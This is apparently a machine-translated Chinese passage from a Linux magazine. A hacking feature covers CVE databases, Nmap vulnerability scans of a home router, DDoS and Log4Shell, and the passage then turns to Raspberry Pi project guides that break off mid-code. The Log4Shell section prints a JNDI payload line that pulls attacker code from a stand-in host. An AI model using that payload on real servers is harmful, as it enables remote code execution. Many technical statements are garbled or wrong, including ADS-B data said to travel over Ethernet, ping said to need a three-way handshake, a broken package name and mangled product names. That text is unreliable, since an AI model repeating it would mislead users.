通用漏洞披露 (CVE) 数据库是一个由 Mitre Corporation 受美国政府委托运营的绝佳数据集。它跟踪已发现的漏洞，并将其与公司和软件厂商的内部跟踪系统进行交叉引用，因此很容易确定哪些版本或操作系统受到了影响。

除了 CVE，还有国家漏洞数据库 ([https://nvd.nist.gov](https://nvd.nist.gov))，其中 CVE 根据严重程度进行分级。几个系统使用 0.0 到 10.0 之间的数字来计算严重性得分。一个完美的 10.0 分通常描述的是影响流行软件、允许远程代码执行且可以通过简单脚本（脚本小子）实施的 CVE。中间人 (PitM) 攻击在现实世界中可能难以实现，因此不会被赋予高分。然而，远程代码执行漏洞的评分可能会更高。除了 CVE 条目，你还可以搜索通用平台枚举 (CPE) 数据库，这使得查找特定产品中的漏洞变得简单。

搜索结果将指向一个 CVE 条目，而该条目反过来可能会提供显示如何利用特定漏洞的代码。理想情况下，这发生在问题被负责任地披露给受影响的供应商或项目之后，给他们时间发布补丁。否则，这将是一场网络攻击者与安全团队发布补丁之间的竞赛。



Pentest++ 菜单中对大量工具进行了精心分类。Nmap 将是我们首先尝试 (portscan) 的工具。

我们也可以使用 Nmap 进行操作系统和服务版本检测，不过如果遇到未知的指纹，有时这会导致猜测。之前的扫描结果表明，路由器可能在 80 端口运行 Web 控制面板，并在 5000 端口存在 UPnP 服务器漏洞。请根据你的实际情况更改下面的数字。运行：

```
$ nmap -p 80,5000 -A 192.168.0.1
```

该服务器的结果是一个 Lighttpd，另一个是 MiniUPnP。为了让你心安，请确保没有其他服务在运行（尽管可能有些服务隐藏在端口敲门协议之后），但一个有趣且令人担忧的问题是，我们发现路由器是在 LAN 接口而非 WAN 接口上（换句话说，是从外部访问）。我们很快能从外部进入的可能性较低，因为我们不能确定它的外部 IP；为了扫描网络，我们习惯于寻找其外部 IP，这可以通过像 [https://ipinfo.io](https://ipinfo.io) 这样的网站轻松找到。

利用漏洞服务器通常是任何非法计算机活动的关键步骤。去年的 Log4shell 漏洞影响了数以百万计应用程序中使用的日志框架，从 Elasticsearch 容器到 Minecraft 服务器。不幸的是，许多服务器仍然没有打补丁，这不仅是因为管理员的懒惰，还因为用户在不破坏应用程序世界中其他依赖项的情况下无法更新软件。Zeeon 的研究（参见 [https://bit.ly/L7yzn-rezon-security-research](https://bit.ly/L7yzn-rezon-security-research)）表明，不仅有数千台机器仍运行易受攻击的 Log4j 版本，还有数千台机器运行更旧的 Log4j 1.x 版本。1.x 免费版本无法实现，虽然它可能对 Log4shell 免疫，但容易受到无数其他已知攻击的影响。

出于好奇，我们调查了运行在路由器上的 UPnP 服务器。

```
$ nmap -p 5000 -A --script vulners 192.168.0.1
```

我们简单地发现了一个字符串来查明该漏洞：

```
CVE: miniupnpd_project:miniupnpd:1.9
```

| ID | 分数 | 链接 | 状态 |
|---|---|---|---|
| EDB-ID:43501 | 7.5 | https://vulners.com/exp/exploitdb/EDB-ID:43501 | "EXPLOIT" |
| CVE-2017-8798 | 7.5 | https://vulners.com/cve/CVE-2017-8798 | |

查看这些链接发现，这是一个 MiniUPnP 客户端 1.4-2.0 版本中的无符号错误，易受攻击的系统可能会被拒绝服务 (DoS) 攻击所利用。

> ## 挖掘 NMAP 的潜力
> “得益于 Nmap 强大的脚本引擎 (NSE)，可以安排各种自定义任务。”

虽然尝试那些链接中提到的概念验证 (PoC) 代码会很令人兴奋，但那将是徒劳的。因为这是一个客户端程序的漏洞，而不是服务器端的漏洞。这是一个重要的区别，因为通常不经意的端口扫描只能告诉你主机上易受攻击的服务。目标机器上运行的其他软件中可能存在许多其他漏洞（在人类操作系统中不可见），但 Nmap 无法在这方面帮你。这些脚本仅检查版本信息（通常只是 Nmap 的最佳猜测），因此看到类似上述的输出应该是产生恐慌的一个有趣的起点。

### 使用 Nmap 进行更深层的探测

除了网络侦察和服务发现，Nmap 还可以进行更深层的探测。这要归功于 Vulners。这个脚本可以被配置。由安全组织 Vulners.com 提供的一个最实用的脚本，利用 Nmap 检测运行服务版本的能力，结合已知的漏洞数据库，能极其详细地告诉你哪些漏洞可能会影响目标。

请记住，漏洞可能仅影响在特定配置下运行的特定程序的某些功能。但调查总是值得的，这就是为什么像 searchsploit（参见 Pentesting > Exploitation Tools > Exploit Search）这样的工具会派上用场。


### 现代黑客技术、伦理与统计学

阅读关于历史上最大规模 DDoS 攻击的故事，以及磨练黑客技能如何能帮助你预防下一次攻击……

一个动名词和一个不定式走进了 Linux 内核。他们必须学习（learn）。这是一个关于（借酒浇愁 drinking to forget）笑话的糟糕改编，但作为一个开场白还算合理。在古老的黑客秘籍中，有一条极其有用的格言：“不要为了学习而黑客，而要为了黑客而学习（don't learn to hack, hack to learn）”。花点时间反思这句话是值得的。

例如，如果你在 Google 中搜索 “how to hack” 或者更糟糕的 “how to hack gmail”，我们几乎可以保证你找不到任何有用的信息。事实上，你可能会发现搜索结果全是指向垃圾邮件和钓鱼链接，而我们建议关闭这些，因为当搜索引擎产生越来越糟糕的搜索结果时，黑客和广告商深知哪些知识分子和学者会搜索这些词条。不幸的是，他们也知道如何有效地针对这些人。

然而，有许多优秀的资源可以让你学习网络侦察、渗透测试甚至钓鱼技术。例如，像 https://tryhackme.cc 这样的网站会教授你使用工具。TryHackMe 更倾向于通过投入时间来给予回报；它通过将教程游戏化使学习过程变得有趣，在某些情况下甚至会提供虚拟机（VMs）供你下载并入侵。那里有课程、实验室和竞赛，能帮你学习从 Metasploit 到 Maltego 的一切。

黑客文化的一个重要组成部分是夺旗赛（Capture The Flag, CTF）。你可能记得小时候在操场上的这个游戏，或者后来在像《虚幻竞技场》（Unreal Tournament）这样的第一人称射击游戏中见过。传统理念是团队之间竞争，试图夺取对方队伍的旗帜，基本上在这个过程中会对对方进行“折磨”。但黑客版本的 CTF 仅仅涉及寻找由挑战发起者隐藏的旗帜（有时是某些物品）。

### 打开闸门

我们以“死亡之ping”（ping of death）开始，那么让我们以“洪水攻击”（flood attack）的概念结束。洪水攻击不是发送单个畸形数据包，而是扫描并发送大量大小合规的数据包。其核心思路是通过发送超过目标机器处理能力的 ping 请求来使其瘫痪。无论是“死亡之ping”还是 ping 洪水攻击，都属于一个名为拒绝服务（DoS）攻击的大类。

在某些 Linux 版本中，`ping` 命令只有在以 root 身份运行时才可用。其中一个例子是 “smurf” 或洪水攻击，它基于尽可能快地发送回显请求。在更理想的情况下（攻击者的带宽明显高于防御者，且防御者没有防止 DoS 的防火墙），一台机器有可能以此方式使另一台机器瘫痪。然而，更常见的情况是攻击者使用多个主机发送 ping，这使其演变为分布式拒绝服务（DDoS）攻击。大多数路由器都能防御 ping 洪水攻击，同样也能防御 SYN 洪水攻击等手段。这些攻击可以通过普通的包过滤栈（packet-filtering stack）检测出来。

Armitage 是 Metasploit 的一个图形用户界面（GUI）。要使用它，请确保从系统服务菜单启动 Metasploit Framework。

实际的 DDoS 攻击通常由攻击者控制的僵尸网络（botnet）执行。网络犯罪组织可能会出租他们的僵尸网络或培育的一大批僵尸机器，或者利用他们拥有的任何带宽。DDoS 攻击会消耗巨大的带宽。2016 年，DNS 提供商 Dyn 因为 Mirai 恶意软件而下线（导致许多热门网站无法访问），该软件主要感染了使用默认凭据的 IoT 设备。这次攻击的总带宽估计在 1.2 Tbps 左右。安全社区起初措手不及，但关键的遥测数据发现了攻击，扫描地图耗时 36 小时。2021 年 11 月，微软透露其挫败了历史上最大规模的 DDoS 攻击，峰值达到 3.472 Tbps。这是一个惊人的数值。超过这个量级的数据非常罕见。一次 UDP 反射攻击是罪魁祸首，但还有许多其他类型更复杂的 DDoS 攻击。

Log4Shell 漏洞利用了未经清洗的 JNDI 查询，在最坏的情况下可导致远程代码执行。所有攻击代码必须通过精心构建的消息下载，其形式类似于 `jndi:ldap://example.com/Bad.class` 并写入文件。与 Bash 类似，Log4j 对大括号中的表达式执行字符串替换。在正确的情况下，`/bad_file` 的内容可能会立即在服务器上执行。在日志进程中，它可以被写入文件，如果另一台服务器在监听，则可以在该服务器上执行。如果执行在发送机上，攻击者仍然可以让易受攻击的机器将数据（如环境变量或配置内容）发送到他们的机器上。

### 伪安全感

这里我们基于通常的 Java 命名和目录接口（JNDI）通过 LDAP 获取资源的能力，但实际上其他协议也可以被利用。由于在第一个缺陷被发现后不久就发现了许多相关漏洞，并且在最初创建后不久就实施了许多即时缓解措施，这造成了一种非常虚假的安全性感觉。一旦被攻破，系统可能会被出租给僵尸网络，或者被勒索软件加密，或者在不知不觉中变成加密货币挖掘机。

有趣的是，Dyn 攻击被认为（虽然并非定论——我们都知道在 2017 年有三名 20-21 岁的个体是罪魁祸首，尽管法院称其为“有重大证据表明与……相关”）是由不满的 Minecraft 玩家发起的，Log4j 也是如此。事实上，要在易受攻击的 Minecraft 服务器上利用 Log4j，你只需要将上述代码片段输入聊天框即可。当然，这只是 Log4j 被利用的众多方式之一，如果满足各种条件，攻击者将能够执行代码。

至此，我们的黑客专题就结束了。像往常一样，我们仅触及了该主题的皮毛，而且实际上只涉及了 Parrot 中极其丰富的工具集的一小部分。希望你有所收获。无论你做什么，许多读者会深情地记得那个基于 Drupal 的旧 `linuxformat.com` 网站。这个网站竟然运行了这么久，更重要的是我们竟然能这么久不开发票（准确地说是 13 年），这真是个千古之谜。由于我们是数字历史的爱好者，我们特意保留了所有工具的存档。这里我们也谈到了黑客数据包工具。我们决定尝试攻破上述虚拟机。`Nmap` 显示该易受攻击的虚拟服务器运行着以下版本的软件：

- FTP (ProFTPD 1.3.1)
- Apache 2.2.31
- OpenSSH 4.7p1
- Sudo 版本（未提及服务器版本号）

但尽管我们尽了最大努力，没有一个漏洞利用（exploit）生效。我们使用了 OWASP 的 `ZAP`（现在叫 Zed Attack Proxy），尝试了开放 Web 应用程序安全项目（https://owasp.org/）去攻击数据库旧存档表单，但毫无结果。如果你感兴趣，ZAP 通过建立一个中间人代理（person-in-the-middle proxy）来进行攻击，该代理可以操纵发送给 Web 服务器页面的用户请求并检查响应。

我们还尝试了 Metasploit，这在任何其他情况下都会是显而易见的选择（甚至可以使用 boxcracker）。但看来我们机器上的幽灵与其之前的自我一样愤愤不平。有什么主意吗？有人吗？哦，还有一件事。我们礼貌地请求你不要尝试渗透测试我们的新 Web 服务器，因为我们会追踪你，并且当你出现时，先让你 Linux 操作考试不及格。

> Wireshark 可以在数英里外嗅探到你局域网上的数据包。几乎没有什么东西能瞒过它。

### DDoS 的数学原理

当你 ping 另一台机器时，你会发送给定大小的数据包（在 Linux 上通常为 64 字节），而该机器会用相同大小的数据包回复。因此，发送的数据量与接收的数据量相等。如果目标是使目标的网络带宽饱和，那么攻击者需要能够发送比目标接收能力稍多一点的数据。这与 SYN 洪水攻击有微妙的不同。

更高级的 DDoS 攻击利用了这样一个事实：某些请求导致返回的数据量远多于发送的数据量。最先进的攻击通过利用某些服务器上间歇性的 NTP（网络时间协议）来实现显著的放大效应。这些“反射攻击”伪造目标的 IP 地址，以便将冗长的响应发送到那里。对于 UDP 协议（如传统的 DNS），这总是可行的，因为源地址不经过验证。另一方面，使用伪造 IP 发起 ping 需要三路握手，如果地址被伪造，握手将失败。但连接会在一段时间内保持“半开”状态，数千个此类半完成连接所占用的资源构成了 SYN 洪水攻击的基础。


### LINUX
## 2023 年度格式

## 项目

获取灵感 —— 从以下一系列项目开始构建和创作

- **120 个必备 Pi 项目**
  尽情尝试 10 个火热的 Raspberry Pi 项目
- **130 如何搭建专业级音乐工作室**
  跟随 Michael Reed 的指南创建你自己的工作室，让节奏燃起来
- **134 运行 Ghost 博客**
  你想知道如何在服务器上营造诡谲气氛吗？如果是，你应该找 David Rutland。如果不是，请原谅这些双关语！
- **138 优化 Steam 和 Proton 游戏体验**
  Michael Reed 关于在 Steam 上运行海量游戏的指南
- **142 让你的家尽可能智能化**
  通过智能家居提升你简朴的住所
- **146 创建自动化与通知**
  Matt Holder 继续他的智能化家居升级之旅
- **150 模拟 Commodore VIC-20**
  回到那个 Commodore 统治至上的简单时代
- **154 构建内核**
  Jonni 揭开层层外壳，揭示 Linux 之心是如何跳动的
- **162 使用 Python 创建 3D 游戏世界**
  让自己沉浸在 3D 世界中，掌握游戏编程的复杂精髓
- **166 构建自定义数字标牌系统**
  学习如何制作你自己的数字标牌
- **170 构建 Pi 驱动的媒体中心**
  通过你独特的媒体中心，提升对音乐、游戏、电视等内容的享受

## 必备 Pi 项目

**Jonni Bidwell** 表示，现在是时候开始一些火热的 Raspberry Pi 项目了，他为你准备了一系列值得尝试的选择...

### 操作指南

- 安装新操作系统
- 安装新外壳
- 连接 LED 灯
- 追踪航空流量
- 模拟输入
- 机器学习
- 使用 Arduino

> **10 个值得尝试的惊人项目！**

这款名为 Raspberry Pi 的微型计算机最近庆祝了 10 岁生日。而它所激发的创客、DIY 爱好者和黑客革命没有放缓的迹象。幸运的是，我们希望通过当今最棒的 Pi 项目来启发你的欲望也同样没有减弱。整整 10 页的内容...

我们准备了复古游戏、媒体中心、高保真音频系统... 各种各样的东西。电子产品和绚丽灯光的爱好者一定会喜欢我们关于 LED 的启发性深度解析。而那些不知道从哪里开始的人，可能会喜欢我们对操作系统的总结以及快速上手的简易指南。

仅凭几个外设且无需编程就能完成的事情令人惊叹。我们将向你展示一个 40 英镑的组件如何将你的 Pi 变成一个航空追踪系统，它可以抓取实时的 ADS-B 数据和天空中的应答机代码。如果你愿意尝试一点 Python 编程，那么通往其他各类项目的大门就打开了。我们还将向你展示得益于来自 Tom's Hardware 朋友们的旋转编码器项目，让 Python 与硬件通信是多么简单。

Pi 4（以及我们在第 50 页介绍的 Pi 400）比之前的任何 Pi 都要强大得多。拥有高达 8GB 的 RAM 和可超频至 2GHz 的 CPU，意味着它可以承担一些真正的繁重任务。我们将向你展示如何开始接触计算机视觉，使用 TensorFlow 和 OpenCV 构建一个简单的图像识别设备。你只需要一个摄像头，Pi 基金会提供两种型号，价格约为 5 英镑，高质量型号（含镜头）约为 50 英镑。所以，不要在这一页介绍上浪费时间了 —— 快行动起来吧！

## 入门指南

### 学习如何写入 SD 卡。然后将你的 Raspberry Pi 用作 Linux 桌面、服务器或任何完全出人意料的东西。

使用 Raspberry Pi 的第一步是写入一张带有操作系统的 SD 卡。官方的 Raspberry Pi OS（原名 Raspbian）是最好的起点。它拥有自己的轻量级桌面和开箱即用的实用工具，能够完成你对桌面系统的大部分预期。你可以使用任何模拟器或跨平台 RPi 镜像工具来下载并写入选定的操作系统（参见 www.raspberrypi.com/software）。我们使用模拟器是因为我们要介绍这个领域中最好用的工具：Balena Etcher (https://etcher.io/)。

按照（下方）指令将桌面版 Raspberry Pi OS 写入 SD 卡（除非你使用的是原始型号的 Pi，否则技术上是 microSD 卡）。你可以使用此方法写入我们稍后涵盖的任何其他操作系统。如果你使用 `dd`，也可以在终端中完成，但对于初学者并不推荐，因为如果弄混了，很容易将镜像写入错误的设备。例如将 `/dev/sda` 和 `/dev/sdb` 搞混。人们管它叫 "destroy or destroy"（摧毁或摧毁）并非没有原因。

将制作好的 SD 卡插入 Pi。连接显示器、键盘、鼠标和（廉价的）无线网卡，除非你有以太网电缆（非常有用）。如果你有以太网连接，现在可以将其插好。最后，接通电源并祈祷。如果一切顺利，你应该能看到一个令人满足的启动序列飞快闪过，然后出现 Pixel 桌面。如果没有，不要慌：检查电缆，将显示器关闭并重新打开。将所有设备重启。

可能是你的电源供应不足（见反页），或者 SD 卡没有正确写入，或者比特率有偏差。最新版本的 Raspberry Pi OS 会自动为你登录，如果没有，默认用户名是 `pi`，密码是 `raspberry`。如果你还没有设置，系统会立即引导你设置；NoMo 型号中的 Pi 3、4 和 Zero W 内置了无线网络，你可以在欢迎界面进行配置。在旧款 Pi 上可以使用 USB Wi-Fi 模块（如今兼容性通常不错），但请先检查。你应该完成欢迎向导提出的所有问题。系统会要求你创建一些区域设置（locale settings）。最后，你将被邀请更新软件，以获取镜像发布后的所有修复补丁。

Raspberry Pi OS 简单易学且自带大量优秀工具。面向初学者的 Thonny IDE（集成开发环境）非常适合你的第一个 Python 项目；如果你需要更强大的工具，安装微软的 Visual Studio Code 也很简单。说到 Python，你可以用它来对接 Minecraft 的 Pi 特别版。你还会发现用于符号计算的 Wolfram Mathematica，以及用于使用自然语言查询其知识引擎的 Wolfram 语言。

> 这段简洁的小对话将欢迎你进入美妙的 Raspberry Pi 世界。

### 将镜像写入 SD 卡

1. **下载 RPi Imager**：从 www.raspberrypi.com/software 下载 Raspberry Pi Imager。提供 Linux、Windows 和 macOS 版本。点击下载后，它将安装在你的桌面上。选择 Linux 变体（包括 Ubuntu）。然后找一张合适的 SD 卡（桌面 OS 至少需要 8GB；无 GUI 版本的 Raspberry Pi OS 可以装在 2GB 的卡中）。
2. **寻找 OS 镜像**：插入 SD 卡，确认上面没有重要数据，然后启动 Rpi-imager（它应该出现在你的应用程序菜单中）。如果你是刚开始尝试，请选择 Raspberry Pi OS（32 位选项），或者在下方菜单中找到 64 位版本（适用于 Pi 3 及以上型号）。或者，选择 Use Custom 来提供你自己的镜像文件。
3. **写入镜像**：选择 Choose Storage 并选择 SD 卡。如果你在写入 Pi OS，Advanced options（高级选项）框允许你调整 USB 和 SSD 凭据。点击 Write 并观察进度条前进。在移除 SD 卡之前，请务必使用 Safely Unplug（安全卸载）选项。

## 内部与外部安全

配置操作系统，设置远程访问，然后为你的 Raspberry Pi 项目投资一些微小的“墙壁”和“屋顶”（外壳）...

当你第一次启动 Pixel 桌面时，系统会要求你更改默认密码。你不应该直接将其改回 `raspberry`，因为这些凭据是公开已知的，因此任何下载的恶意软件都可能窃取它们，让你简朴的 Pi 反戈一击。如果你启用了我们将要介绍的远程访问，这一点尤为重要。这将允许你通过 SSH 协议从另一台机器连接到你的 Pi，从而实现各种远程操作和管理功能。

从应用程序菜单（左上角）选择 Preferences（首选项），然后选择 Raspberry Pi Configuration。在这里你可以设置主机名、显示设置... 各种各样的事情。进入 Interfaces（接口）选项卡，这里允许你启用远程登录（以及通过 VNC 使用桌面）以及各种硬件总线（如 I2C 和 SPI）。启用 SSH 选项，那么下次重启后，你就可以通过简单的命令从另一台 Linux 机器连接：

`$ ssh pi@192.168.168.xy`

一旦你熟悉了 Pi 和 Pixel 桌面，就可以开始进行一些项目了。对于其中许多项目，其实不需要桌面环境。对于大部分项目，甚至不需要连接显示器和输入设备。桌面版 Raspberry Pi OS 稍微沉重一些，但与 Lite 版本不同，其镜像体积要小得多。这不仅让容量较小的 SD 卡能装入更多内容，还能释放宝贵的资源并节省电量。

你可以通过在启动分区中放置任何名为 `ssh` 的空文件，将 Raspberry Pi OS 设置为启动时启用 ssh。同样，你可以放置一个 `wpa_supplicant.conf` 文件来使你的 WiFi 自动连接。`raspi-config` 工具允许你配置接口和 GPU 内存，因此无需插入外设。详见 www.raspberrypi.org/documentation/computers/configuration.html。

将 IP 地址替换为你 Pi 的地址，你可以通过打开终端（在 Accessories 菜单中）并输入 `hostname -I`（或类似命令）来查找。你也可以从家庭路由器中找到此地址，或者使用 nmap 等工具在网络中搜索开启了 SSH 的机器：`ssh user@192.168.0.8`

最后这两点很有帮助，因为在探索过程中，一半的人都会丢失 Pi 的 IP 地址，这非常令人沮丧。大多数 Linux 发行版在创建用户后都会开放远程访问，但如果你网络中有多个 Pi 且都配置了默认主机名，这就不太可靠了。

## 使用外壳保持整洁

> “微小的 Raspberry Pi 是极简主义者的梦想，但任何见过它运行的人可能都会告诉你，情况很快就会变得混乱。”

### 尘埃落定（外壳到位）。

微小的 Raspberry Pi 是极简主义者的梦想，但任何见过它运行的人可能都会告诉你，情况很快变得混乱。无论你在做什么，你都需要一个电源（见右侧方框），然后你可能需要显示器、一些 USB 外设，甚至一个面包板（以及更多组件）。整洁的桌面和周到的电缆管理能起到很大作用，但将你的 Pi 放入外壳这个简单的行为同样有效。即便没有其他作用，它也能帮助平衡所有电缆施加的扭矩和压力，防止你的 Pi 从桌子上翻滚而下。

Argon 外壳看起来确实很有太空时代的感觉，而且它以一种惰性气体（氩气）命名。


最早出现在市场上的 Pi 机壳（以及 Pi 外设）之一是 Pimonora 的 Pimonora，这是一种简单但有效的分层结构。它提供多种配色方案，以及纤薄的“信用卡”尺寸。这是我们最喜欢的，因为它让 Pi 的顶部保持外露，以便安装散热片、HAT 扩展板或 USB 集线器。

目前有各种类型的机壳和 USB 集线器可供选择，包括 2015 年执行国际空间站（ISS）任务的一对 Pi（被称为 Astro 和带有传感器及天线的 Astro）所用机壳的复制品。真实的飞行机壳必须经过工程设计，以承受各种冲击、静电爆发和温度变化。这种任务要求它们必须由航空级铝材制造，且仅生产了极少量。从成本上看，每个大约需要 3,000 英镑，但如果你有 Filament 3D 打印机，并且有合适的耗材，你可以在原件旁边自己打印一个塑料复制品。Pimonora 根据知识共享（Creative Commons）协议发布了所需的对象文件，方便用户直接下载使用。

最近，Argon40（网址 https://argon40.com，推特 @argon40）推出的具有未来感的一系列机壳大受欢迎。它们采用了铝材，但价格较为昂贵。与 Argon40 生产的 Astro Pi 机壳不同，它们没有配备散热片和风扇，而是提供（正如其为 Pi 4 设计的那样）一个可容纳 M.2 SATA SSD 的扩展空间。不仅如此，它还将 HDMI 端口引出为全尺寸端口，并包含一个红外面板，以便你能够通过遥控器（例如通过 FLIRC）来控制它。

此外，还有一个受 Raspberry Pi OS 支持的软件可控风扇。这比其他许多 Pi 分销商提供的方案更便宜，且能提供有效的冷却。Pi 依然发热，但通过一些低电压记录来冷却 Pi 4 并观察温度上升速度，情况在可控范围内。你可以通过命令行查询传感器：

```
$ vcgencmd measure_temp
```

在散热不足的情况下，降频（Pi 自愿降低主频）将在 60°C 左右启动。如果你连接了显示器，发生这种情况时会在右上角看到一个黄色太阳符号。如果没有显示器，日志中会出现警告。如果之后温度仍未降低，机器的“生存本能”将接管，直接将其关机。同样，如果机器电量不足，你会在左上角看到一个黄色闪电符号。

同样，它会降频以避免逻辑错误，且大多数时候很快就会发生这种情况。另一方面，你无法停止这种硬件保护，如果机器冻结，请为你更换一个新的电源。

在电源不足或散热不良的情况下，Pi 桌面可能会运行缓慢，但这也可能是由于 SD 卡性能差造成的。在执行系统更新等 I/O 密集型操作时，这一点尤为明显。所以，给自己买一张新的 s 级（高速）卡吧，除非你喜欢看着缓慢移动的进度条。或者，我们在前一页介绍的镜像手册提供了一种简便的方法，可以在 Pi 4 上设置硬盘（或 USB 闪存盘）引导。所有型号都开箱支持此功能。

如果你使用的是较旧的 Raspberry Pi 4，你需要进行一些“手术”，即更新 EEPROM。但如果你能在 HDMI 标志左侧看到三个方块，那么就可以直接使用了。事实上，USB 引导自 Pi 4 的 1.2 版本起就已实现，但之前并不值得去做，因为启动设备会被旧设备上缓慢的 USB 2.0 端口所限制。现在很容易找到 USB 3.0 适配器，一个 2.5 英寸的 SSD 可以整齐地放入底部的空腔中。

Coup Ninja 是我们最喜欢的 Pi 机壳型号。现在已更新至支持 Pi 4（图片来源：Pimonora）。

## 我拥有电力 (I'VE GOT THE POWER)

无论你拥有哪个型号的 Pi，如果没有电源，它都毫无用处。早期的型号和 Pi Zero 对电源要求较低，可以愉快地运行在标准 USB 接口（500mA）或廉价的 USB 电源适配器上。Pi 3 和 4 的功耗要高得多，尤其是后者。现在两者都有官方电源适配器，如果你有任何疑问，应当使用官方适配器。否则，一个优质的 5V 2A 电源应该适用于 Pi 3（即使连接了几个额外外设），而 5.1V 3A 的电源将能满足 Pi 4 的需求。

某些项目可能需要更多电量，在尝试通过 Pi 的 5V 引脚供电时应始终小心。例如 LED，如果你有几盏灯，或者有一条长灯带，它们应该独立供电。对于户外项目，通常可以使用标准的 USB 充电宝，但你也可以研究一下锂聚合物（Li-Po）电池、太阳能电池板或两者的结合。LiPo 电池通常运行在 3.7V，因此需要一些电路将其升压至 5V。太阳能电池板会产生波动剧烈的电压（除黑暗环境下外），因此必须通过控制器或稳压器连接到 Pi。一种常见的配置是利用太阳能电池板给电池进行涓流充电，然后通过太阳能控制器和类似 Adafruit BoostPower 的设备为 Pi 供电，这将是最可靠的方案。

## LED 与降落条

探索如何使用 Raspberry Pi 扫描天空中的飞行器，并用明亮的灯光照亮你的工作空间。

抬头看向天空，你可能会看到许多飞行在头顶的航空器。飞机、直升机、无人机、UFO……种类繁多。

如果你能清晰地看到（LoS）一片天空，那么使用一些不太昂贵的设备，通过制作一个利用 L-mode 的接收器，你就能发现更多关于 UFO 的信息。

大多数航空管辖区要求使用空中交通的航空器定期发送 ADS-B（自动相关监视广播）数据。在美国，FAA 正在从地面导航辅助设备（如雷达）转向 ADS-B，因为它更安全、更便宜，且能提供更多实时信息。对于小型飞机来说，这也更可行，因此你可以捕捉到其中一些。这些数据通过以太网以未加密形式传输。太简单了。那么让我们开始“嗅探”吧。

你需要一个 ADS-B 接收器和一个天线。如果你在城市地区，可能需要一个 1090MHz 过滤器来消除城市电磁噪声（我们使用的 Flight Aware 接收棒内置了此过滤器）。我们起步时使用了一个 5dB 天线，这比接收器自带的入门级天线略有提升。由于 ADS-B 信号会被墙壁阻挡，如果将天线放置在窗户附近，你会看到更多飞行器。如果你想获得最佳效果，可以将所有设备安装在山顶的室外，并配备大型天线。只需注意避雷即可。

我们将从安装必要的工具开始。我们需要从源码编译 dump1090 工具，因此需要一些各种组件的头文件。在我们的桌面 OS 纯净安装版中已经安装了这些工具，但你可能没有同步安装。

```
sudo apt install build-essential cmake libbearer-libitrsdr-dev pkg-config libopus-dev libavdevice-dev libavfilter-dev libavcodec-dev libswresample-dev libz-dev libftft-2.0-0
```

下一步是克隆 dump1090 仓库然后开始构建：

```
$ git clone https://github.com/flightaware/dump1090.git
$ cd dump1090
$ make
```

这是一个很小的程序，所以构建时间不会太长。在四核 Pi 上，你可以通过运行 `make -j 13` 来稍微加快速度。或者，你也可以休息一下，给自己泡杯茶。现在，如果你还没有接好，请插入你的接收板和天线，并在交互模式下运行 dump1090：

```
$ dump1090 --interactive
```

现在你会看到控制台中出现一个表格，其中各行填充了附近航空器的各种数据，包括它们的高度和航班号。如果你没有看到任何数据，请考虑将设备移至室外。奇怪的是，我们可以将这些数据绘制在地图上。事实上，dump1090 拥有一个可以实现此功能的 Web 应用程序，我们只需要激活它，然后运行简单的 Python Web 服务器来提供该目录。运行简单的 Python Web 服务器，这次将其作为 Web 输出：

```
$ mkdir public_html/data
$ dump1090 --write-json open public_html/data
$ cd -- /usr/dump1090/public_html
$ python3 -m http.server 80
```

现在打开浏览器（在本地网络中的任何位置），访问 `http://192.168.1.90:80`（根据实际情况替换 IP 地址）。你应该能看到一张地图，如果你放大到某个位置，你应该能看到天线最东端缺乏飞机的情况。

### 漂亮的灯光

Raspberry Pi 可能是学习的绝佳平台，但它开箱即用时无法实现的一个主要功能是使用模拟电子元件。这意味着从模拟操纵杆到电位计，默认情况下都无法使用。幸运的是，为 Pi 添加 ADC 解决了这个问题。MCP3008 ADC（模数转换器）用于将模拟输入连接到 Raspberry Pi 的 40 个 GPIO 引脚，使你能够使用各种电子元件。

为了向你展示如何利用模数转换以及如何用它运行灯光秀，我们创建了一个项目，该项目将读取三个电位计，并使用它们来控制 Adafruit NeoPixel LED 灯环的颜色。以下是如何使用模拟输入创建彩色 Raspberry Pi 灯光秀的方法。我们使用了 Adafruit 的 12 像素 LED 灯环，但该思路适用于任何场景。你还需要一个面包板、三个 10K 电位计和一组跳线。你可能……

*今天早晨巴斯上空很安静，也许如果我们有更大的天线，就能看到更多活动。*


> 电路图看起来很整洁，但在现实生活中，情况会乱得多。

你需要将跳线焊接在 LED 上，或者通过其他方式延长到面包板的连接。
我们借鉴了 Tom's Hardware 的这个项目。原版请参阅 www.tomshardware.com/uk/how-to/raspberry-pi-light-sensor-analog-ads1015。

将 MCP3008 插入面包板，使其引脚跨在中央分槽上。芯片上的缺口应面向面包板的短边。MCP3008 的 16 个引脚编号从左下角的 1 开始，然后沿底部向右数到 8。引脚 9 在右上角，最后引脚 16 在左上角。

使用母对公跳线将 MCP3008 连接到 Raspberry Pi 的 GPIO。使用两根母对公线将 3.3 V 和 GND 引脚连接到面包板的 + 和 - 电源轨。然后使用公对公线将电源轨连接到 MCP3008 的电源引脚和 GND 引脚。

```python
import board
import neopixel
from time import sleep
from gpiozero import MCP3008

r = MCP3008(channel=0)
g = MCP3008(channel=1)
b = MCP3008(channel=2)

pixels = neopixel.NeoPixel(board.D18,16)

while True:
    red = round(r.value * 255)
    green = round(g.value * 255)
    blue = round(b.value * 255)
    print(red, green, blue)
    for i in range(16):
